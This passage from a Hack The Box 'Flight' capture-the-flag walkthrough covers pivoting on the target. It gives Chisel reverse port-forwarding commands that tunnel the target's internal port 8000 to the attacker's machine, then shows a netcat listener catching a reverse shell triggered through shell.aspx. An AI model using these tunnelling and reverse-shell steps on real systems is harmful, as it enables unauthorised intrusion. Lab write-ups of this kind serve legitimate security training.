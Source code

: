 Once we've transfered our shell.exe file, lets now copy over Chisel to set up some port forwarding so we can access port 8000 running internally.

Once Chisel is on the target we can run in Kali:

```
./chisel_1.8.1_linux_arm64 server -p 1111 --reverse
```

And then on the target:

```
.\chisel_1.8.1_windows_amd64 client 10.10.14.60:1111 R:8000:127.0.0.1:8000
```

We can now acces the internal page on port 8000:

![flight_internal_page.png](../assets/flight_assets/flight_internal_page.png)

And navigate to http://127.0.0.1/shell.aspx to trigger our shell:

```
┌──(ryan㉿kali)-[~/HTB/Flight]
└─$ nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.10.14.60] from (UNKNOWN) [10.10.11.187] 50890
Microsoft Windows [Version 10.0.17763.2989]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
iis apppool\defaultapppool
```
